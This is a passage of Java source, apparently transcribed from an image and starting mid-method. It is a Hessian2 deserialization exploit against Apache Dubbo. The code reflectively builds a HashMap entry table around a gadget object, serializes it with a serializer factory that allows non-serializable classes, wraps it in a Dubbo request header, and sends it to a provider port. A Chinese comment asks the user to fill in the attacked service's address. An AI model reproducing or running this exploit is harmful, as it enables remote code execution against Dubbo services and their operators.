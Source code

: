 ```java
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 1);
        Array.set(tbl, 0, nodeCons.newInstance(0, root, root, null));
        Reflections.setFieldValue(s, "table", tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        // header.
        byte[] header = new byte[16];
        // set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
        // set request and serialization flag.
        header[2] = (byte) ((byte) 0x80 | 0x20 | 2);

        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(hessian2ByteArrayOutputStream);
        HessianBase.NoWriteReplaceSerializerFactory sf = new HessianBase.NoWriteReplaceSerializerFactory();
        sf.setAllowNonSerializable(true);
        out.setSerializerFactory(sf);

        out.writeObject(s);

        out.flushBuffer();
        if (out instanceof Cleanable) {
            ((Cleanable) out).cleanup();
        }

        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());

        byte[] bytes = byteArrayOutputStream.toByteArray();

        //todo 此处填写被攻击的dubbo服务提供者地址和端口
        Socket socket = new Socket("127.0.0.1", 20880);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
}
```
